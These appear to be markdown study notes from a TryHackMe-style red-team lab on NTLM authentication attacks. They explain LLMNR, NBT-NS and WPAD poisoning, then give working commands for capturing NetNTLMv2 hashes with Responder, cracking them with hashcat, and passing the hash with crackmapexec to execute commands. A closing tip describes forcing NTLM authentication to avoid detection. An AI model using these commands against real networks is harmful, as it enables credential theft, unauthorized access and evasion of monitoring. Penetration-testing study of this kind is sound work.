 
## General

Authentication relays are a type of cyber attack in which an attacker intercepts and modifies authentication requests in order to gain unauthorized access to a system. This type of attack can be exploited by using a tool such as Responder, which is a network utility that is designed to capture and modify authentication requests.

To carry out an authentication relay attack, the attacker first sets up a rogue server and then captures authentication requests that are sent to the legitimate server. The attacker can then modify the authentication requests and send them back to the legitimate server, using the Responder tool to intercept and modify the requests as needed. If the legitimate server is configured to trust the rogue server, it may accept the modified authentication requests and grant the attacker access to the system.

More information
	Responder is a network utility that can be used to capture and modify SMB (Server Message Block) authentication requests in order to carry out SMB relay attacks. In an SMB relay attack, the attacker captures SMB authentication requests that are sent to a legitimate SMB server and modifies them in order to gain unauthorized access to the server. The attacker can use Responder to intercept and modify the authentication requests as needed in order to trick the legitimate SMB server into granting access.
	ㅤ
	LLMNR is a protocol that allows computers on a local network to resolve the hostnames of other computers using multicast DNS. This protocol can be exploited by attackers to perform various types of attacks, such as spoofing the hostname of a legitimate server and tricking clients into connecting to a rogue server.
	ㅤ
	NBT-NS is a protocol that is used to resolve NetBIOS names to IP addresses on a local network. This protocol can be exploited by attackers to perform various types of attacks, such as spoofing the NetBIOS name of a legitimate server and tricking clients into connecting to a rogue server.
	ㅤ
	WPAD is a protocol that allows clients to automatically discover and use a proxy server on a local network. This protocol can be exploited by attackers to perform various types of attacks, such as redirecting client traffic to a rogue proxy server in order to capture sensitive information.


## Commands

Intercepting NetNTLM with Responder
```
sudo responder -I INTERFACE
```

Results
```
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : <Client IP>
[SMBv2] NTLMv2-SSP Username : ZA\<Service Account Username>
[SMBv2] NTLMv2-SSP Hash     : <Service Account Username>::ZA:<NTLMv2-SSP Hash>
```

2 Options with the hash you have recover
- Crack the Hash
- Pass the Hash (Authentification)

Crack Hash (Hashcat)
```
hashcat -m 5600 <hash file> <password file> --force
```

Pass the Hash
```
crackmapexec smb IP -u USERNAME -H 32196B56FFE6F45E294117B91A83BF38 -x WIN_COMMAND
```

Extra --> Force Authentification to be made via NTLM
	**Question:** _Is there a difference between_ _`dir \\za.tryhackme.com\SYSVOL` and `dir \\<DC IP>\SYSVOL`_ _and why the big fuss about DNS?_
	ㅤ
	There is quite a difference, and it boils down to the authentication method being used. When we provide the hostname, network authentication will attempt first to perform Kerberos authentication. Since Kerberos authentication uses hostnames embedded in the tickets, if we provide the IP instead, we can force the authentication type to be NTLM. While on the surface, this does not matter to us right now, it is good to understand these slight differences since they can allow you to remain more stealthy during a Red team assessment. In some instances, organisations will be monitoring for OverPass- and Pass-The-Hash Attacks. Forcing NTLM authentication is a good trick to have in the book to avoid detection in these cases.